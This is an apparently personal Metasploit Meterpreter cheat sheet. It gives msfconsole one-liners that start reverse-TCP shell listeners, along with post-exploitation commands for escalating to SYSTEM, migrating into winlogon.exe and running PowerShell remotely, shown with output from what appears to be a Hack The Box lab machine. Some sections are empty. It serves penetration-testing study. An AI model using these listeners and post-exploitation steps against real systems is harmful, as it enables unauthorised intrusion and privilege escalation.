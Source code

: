 # meterpreter

- [Offensive PowerShell with Metasploit Meterpreter](#offensive-powershell-with-metasploit-meterpreter)

### TL;DR
```sh
sysinfo
getuid
getsid
getsystem
getpid
migrate <to-new-PID>
ps <string-to-search>
ps -S <string-to-search>
sessions
```
## 
```sh

```

### One liner start meterpreter
https://github.com/andrewjkerr/security-cheatsheets/blob/master/metasploit
```sh
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <listening_host>;set LPORT <listening_port>;run;"

msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443;run;"

msfconsole -x "use exploit/multi/handler;set payload windows/x64/powershell_reverse_tcp;set LHOST tun0; set LPORT 444;run;"
```

## 
```sh

```

### Syntax
```

```
## Examples 

### sysinfo
```sh
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### getuid
```sh
meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >
```

### getsid
```sh
meterpreter > getsid
Server SID: S-1-5-82-2971860261-2701350812-2118117159-340795515-2183480550
```

### getsystem
```sh
meterpreter > getsystem 
[-] priv_elevate_getsystem: Operation failed: 1726 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
meterpreter >
```

### getpid
```sh
meterpreter > getpid
Current pid: 1572
meterpreter >
```

### migrate <to-new-PID>
```sh
meterpreter > migrate 432
[*] Migrating from 1572 to 432...
...
[*] Migration completed successfully.
meterpreter > 
```

### getpid
```sh
meterpreter > getpid
Current pid: 432
meterpreter >
```

### ps <string-to-search>
```sh
meterpreter > ps w3
Filtering on 'w3'

Process List
============

 PID   PPID  Name      Arch  Session  User             Path
 ---   ----  ----      ----  -------  ----             ----
 1572  1600  w3wp.exe  x86   0        IIS APPPOOL\Web  c:\windows\system32\inetsrv\w3wp.exe
```

### ps <string-to-search>
```sh
meterpreter > ps win
Filtering on 'win'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 376  304   wininit.exe
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### ps -S <string-to-search>
```sh
meterpreter > ps -S winlogon
Filtering on 'winlogon'

Process List
============

 PID  PPID  Name          Arch  Session  User  Path
 ---  ----  ----          ----  -------  ----  ----
 432  368   winlogon.exe  x86   1              C:\Windows\system32\winlogon.exe
```

### sessions
```sh
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL      10.10.16.52:1234 -> 10.10.10.5:49456 (10.10.10.5)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ DEVEL  10.10.16.52:1234 -> 10.10.10.5:49453 (10.10.10.5)
```

# [Offensive PowerShell with Metasploit Meterpreter](https://www.sans.org/blog/offensive-powershell-metasploit-meterpreter/)

## load the PowerShell extension
```sh
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter >
```

## Now we have access to 4 PowerShell-related commands
`powershell_execute`: Execute a PowerShell statement, including complex-statements separated by semicolons
`powershell_import`: Import a local PowerShell script to execute on the remote system over the Meterpreter channel
`powershell_shell`: Launch an interactive PowerShell shell
`powershell_session_remove`: Used to remove a PowerShell session when created using execute/import/shell with the -s argument

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```

## 
```sh

```
